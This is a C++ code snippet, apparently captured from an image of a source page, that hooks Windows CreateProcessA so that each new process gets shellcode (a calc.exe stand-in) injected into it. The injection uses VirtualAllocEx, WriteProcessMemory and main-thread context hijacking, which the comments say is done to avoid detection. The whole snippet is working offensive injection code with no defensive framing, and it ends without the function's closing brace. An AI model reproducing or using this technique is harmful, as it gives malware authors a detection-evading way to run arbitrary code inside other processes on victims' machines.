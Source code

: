 ```cpp

typedef BOOL(WINAPI* CreateProcessA_t)(
    LPCSTR, LPSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES,
    BOOL, DWORD, LPVOID, LPCSTR, LPSTARTUPINFOA, LPPROCESS_INFORMATION);
CreateProcessA_t OriginalCreateProcessA = CreateProcessA;

BOOL WINAPI HookedCreateProcessA(
    LPCSTR lpApplicationName,
    LPSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCSTR lpCurrentDirectory,
    LPSTARTUPINFOA lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation)
{
    // Call the original CreateProcessA to create the process normally
    BOOL result = OriginalCreateProcessA(lpApplicationName, lpCommandLine, lpProcessAttributes,
                                         lpThreadAttributes, bInheritHandles, dwCreationFlags,
                                         lpEnvironment, lpCurrentDirectory, lpStartupInfo, lpProcessInformation);

    if (result)
    {
        printf("Process created. Injecting calc.exe payload...\n");

        // Allocate memory in the target process for the payload
        LPVOID remoteMemory = VirtualAllocEx(lpProcessInformation->hProcess, NULL, sizeof(calcPayload),
                                             MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

        if (remoteMemory)
        {
            // Write the payload (calc.exe shellcode) into the remote process
            WriteProcessMemory(lpProcessInformation->hProcess, remoteMemory, calcPayload, sizeof(calcPayload), NULL);

            // Hijack the main thread to avoid detection (instead of CreateRemoteThread)
            CONTEXT context;
            context.ContextFlags = CONTEXT_CONTROL;
            GetThreadContext(lpProcessInformation->hThread, &context);

            // Set the instruction pointer (EIP/RIP) to the shellcode in the target process
#ifdef _WIN64
            context.Rip = (DWORD64)remoteMemory;
#else
            context.Eip = (DWORD)remoteMemory;
#endif

            // Apply the modified thread context and resume the thread to execute the shellcode
            SetThreadContext(lpProcessInformation->hThread, &context);
            ResumeThread(lpProcessInformation->hThread);

            printf("Shellcode injected and main thread hijacked to execute calc.exe.\n");
        }
        else
        {
            printf("Failed to allocate memory in remote process.\n");
        }
    }
    return result;
```